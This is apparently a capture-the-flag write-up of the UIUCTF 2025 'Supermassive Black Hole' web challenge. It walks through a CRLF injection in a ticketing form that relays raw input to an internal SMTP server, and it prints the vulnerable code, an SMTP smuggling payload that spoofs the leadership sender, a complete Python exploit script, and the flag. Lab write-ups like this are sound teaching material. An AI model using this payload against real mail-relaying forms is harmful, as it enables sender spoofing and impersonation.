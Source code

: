 ```yaml
---
title: UIUCTF 2025 - Supermassive Black Hole
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - python
  - CRLF injection
  - medium
authors:
  - Valenter
---
```

*Black Hole Ticketing Services prides itself on losing tickets at the speed of light. Can you get them to escalate?*

Welcome back to the second installment in this series of cyber-spacefaring challenges from uiuctf.

![Homepage](/uiuctf2025/supermassive-black-hole/screenshot-1.png)
Not as fancy as [*Ruler of the Universe*]({{< ref "posts/uiuctf25-ruler-of-the-universe/index.md" >}}), but far less dystopian than some real-world customer service centers.

The *About us* page contains some useful information, namely leadership@blackholeticketing.com, that will come in handy later.

![About-us](/uiuctf2025/supermassive-black-hole/screenshot-2.png)

## Dissecting the Event‑Horizon Mail Hub

There's an SMTP server running internally on port 1025, unfortunately, the port isn't exposed to us, so we can't interact with it directly:

`smtp_server.py`
```python
async def start_server():
    init_database()
    
    it_handler = ITBotHandler()
    controller = Controller(it_handler, hostname='localhost', port=1025)
    
    controller.start()
    
    return controller

async def main():
    controller = await start_server()
    
    try:
        while True:
            await asyncio.sleep(5)
    except KeyboardInterrupt:
        controller.stop()

if __name__ == "__main__":
    asyncio.run(main())
```

Luckily, though, we don't need to, the server does all the work for us, everything we type into the ticket submission form gets conveniently inserted into a pre-packaged `message` and relayed to the SMTP listener:

`web_server.py`
```python
        message_data = f"""\
From: support@blackholeticketing.com\r\n\
To: it@blackholeticketing.com\r\n\
Subject: {subject}\r\n\
X-Ticket-ID: {ticket_id}\r\n\
\r\n\
{message}\r\n\
.\r\n""".encode()

        ending_count = message_data.count(b'\r\n.\r\n')
        if ending_count != 1:
            raise ValueError("Bad Request")

        with smtplib.SMTP('localhost', 1025) as client:
            client.helo("example.com")
            client.sendmail('support@blackholeticketing.com', ['it@blackholeticketing.com'], message_data)
            # Wait a second for SMTP to process the ticket
            time.sleep(1)

        ticket_data = {
            'id': ticket_id,
            'timestamp': int(time.time() * 1000),
            'from': 'support@blackholeticketing.com',
            'subject': subject,
            'body': message,
            'status': 'submitted'
        }

        return render_template('ticket_submitted.html', ticket_data=ticket_data)
```

If we can somehow manage to change the sender address to leadership@blackholeticketing.com, and impersonate their star‑fleet commander‑in‑chief, the server will print out the flag for us.

`smtp_server.py`
```python
from_header = message.get('From', 'Unknown')
subject = message.get('Subject', 'No Subject')
body = str(message.get_payload())
ticket_id = message.get('X-Ticket-ID', f'{int(time.time())}_{self.processed_count}')
            
if internal.leadership_email in from_header.lower():
    response = "C-Suite ticket received! Will escalate immediately!" + f"\n{internal.flag}"
elif internal.support_email in from_header.lower():
    response = "Request for support received! Will resolve after lunch break."
else:
    response = "Please use our support portal to submit a ticket."
```

Now, the Intergalactic Postal Center must suffer from the same understaffing and underpaying issues we have here on Earth, because somebody decided it would be a good idea to override every inherent safety function in the Python SMTP library:

```python
try:
    smtplib._fix_eols = return_unchanged
    smtplib._quote_periods = return_unchanged
    smtplib.SMTP.data = new_data
```

- **`_fix_eols`** normally converts `\n` into `\r\n` to follow the SMTP standard,
- **`_quote_periods`** does dot-stuffing (adds an extra period at the start of every line that begins with a period),
- **`SMTP.data`** was patched with `new_data`.

It instead only runs one check:

```python
ending_count = message_data.count(b'\r\n.\r\n')
if ending_count != 1:
    raise ValueError("Bad Request")
```
it counts the number of terminators and allows there to be only one, this is to prevent us from closing our message and crafting a new one inside the same input.
But since `fix_eols` is deactivated, this is vulnerable to **CRLF injection**.

## Examining the vulnerability

We can use `\n.\r\n`, a.k.a *LF‑dot‑CRLF*, to close our crafted message, the SMTP server will recognize dot-only line as end-of-DATA, and everything that follows (`MAIL FROM:…`, `RCPT TO:…`, etc.) will be interpreted  as new SMTP commands.

#### The payload

```smtp
"\n.\r\n"
"MAIL FROM:<ceo@supermassive.inc>\r\n"
"RCPT TO:<it@blackholeticketing.com>\r\n"
"DATA\r\n"
"From: leadership@blackholeticketing.com\r\n"
"To: it@blackholeticketing.com\r\n"
"Subject: escalate\r\n"
"X-Ticket-ID: 1444\r\n"
"\r\n"
"pls fix asap\r\n"
".\n"
```
*Ticket-ID was added only for convenience and is not necessary for the final exploit*

Thus we add our own custom sender and receiver and pass the message on to the server.
#### Final script

```python
#!/usr/bin/env python3
import requests, time, textwrap

#BASE = "http://localhost:8080"
BASE = "https://inst-4e64969ec136b504-supermassive-black-hole.chal.uiuc.tf/"

payload = (
    "\n.\r\n"                                   
    "MAIL FROM:<ceo@supermassive.inc>\r\n"
    "RCPT TO:<it@blackholeticketing.com>\r\n"
    "DATA\r\n"
    "From: leadership@blackholeticketing.com\r\n"
    "To: it@blackholeticketing.com\r\n"
    "Subject: escalate\r\n"
    "X-Ticket-ID: 1444\r\n"                      
    "\r\n"
    "pls fix asap\r\n"
    ".\n"                                        
)     

#injection ticket
requests.post(f"{BASE}/submit_ticket",
              data={"subject": "Outage", "message": payload})

#wait for the bot to process
time.sleep(2)


resp = requests.get(f"{BASE}/check_response/1444").json()
print(resp["response"])
```

**`uiuctf{7h15_c0uld_h4v3_b33n_4_5l4ck_m355463_8091732490}`**